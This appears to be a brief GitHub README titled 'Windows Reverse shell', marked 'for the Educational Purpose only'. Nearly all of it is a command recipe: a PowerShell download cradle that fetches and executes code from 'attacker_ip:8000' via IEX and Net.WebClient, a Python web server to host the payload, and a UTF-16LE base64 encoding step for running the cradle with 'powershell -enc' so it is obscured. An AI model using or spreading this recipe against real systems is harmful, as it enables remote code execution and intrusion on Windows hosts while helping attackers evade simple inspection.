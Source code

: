 # Windows Reverse shell 
Try this out for the Educational Purpose only ..

```language
nano touch.ps1
nano cradle
cradle content:- IEX(New-Object Net.WebClient).downloadString("http://attacker_ip:8000")

python3 -m http.server 8000

cat cradle | iconv -t utf-16le | base64 -w0; echo

powershell -enc <encoded_code>
```
